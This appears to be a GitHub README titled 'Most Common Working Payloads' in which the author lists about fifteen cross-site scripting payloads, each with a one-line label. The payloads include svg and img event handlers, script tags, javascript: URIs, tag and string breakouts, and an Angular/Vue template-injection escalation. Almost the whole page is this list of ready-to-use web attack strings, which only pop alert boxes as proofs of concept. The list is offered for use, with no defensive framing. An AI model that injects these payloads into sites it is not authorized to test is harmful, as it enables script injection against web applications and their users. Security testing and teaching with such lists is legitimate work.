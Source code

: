 <h1> 🚀Most Common Working Payloads </h1>
<a href="https://discord.com/"><img src="https://img.shields.io/badge/Discord-Kira%20Reys%232749-blue?style=plastic&logo=discord.svg" /> </a>
<a href="https://instagram.com/kira.reys"><img src="https://img.shields.io/badge/Instagram-Kira%20Reys-purple?style=plastic&logo=instagram"/> </a>
<h2> This is list of XSS Payloads that worked in most cases for me </h2>

``` "><svg/onload=alert(1)>``` - Length bypass Svg Payload </br>
``` "><script>alert(1)</script>``` - Basic XSS Payload with script tag </br>
``` <div onmouseover="alert(document.domain);">``` - Onmouseover XSS Payload </br>
``` <IMG SRC="javascript:alert('XSS');">``` - Image XSS Directive Payload </br>
``` </style><script>a=eval;b=alert;a(b(/XSS/.source));</script>``` - Style Special Combination </br>
``` "><img src=x onerror=alert(1)>``` - Typical Image XSS Payload </br>
``` {{constructor.constructor(`alert(1)`)()}}``` - This is technically CSTI, but it is escalated to XSS for better Impact. It works mostly on Angular/Vue Applications. You can explore more about Template Injections on Internet </br>
``` <BODY onload=alert(1)>``` - Body Payload </br>
``` <BASE HREF="javascript:alert('XSS');//">``` - XSS with Base Tag </br>
``` &apos;-alert(1)-&apos;``` - Injecting alert inside HTML tag + HTML Encoding </br>
``` <IMG SRC=javascript:alert(&quot;XSS&quot;)>``` - Image Payload with HTML Entities </br>
```'-alert(1)-'```
```\';alert(document.domain)//``` - Inject Alert inside JS String </br>
```javascript:alert(1)``` - Works in many ways and combination, also can help escalating Open Redirect to XSS </br>
```http://www.<script>alert(1)</script .com```

<h2>by Kira Reys </h2>
<p> XSS is really common vulnerability nowadays on web. This was list of some Payloads that workod in most cases for me. Thank you for your attention! ✨</p>
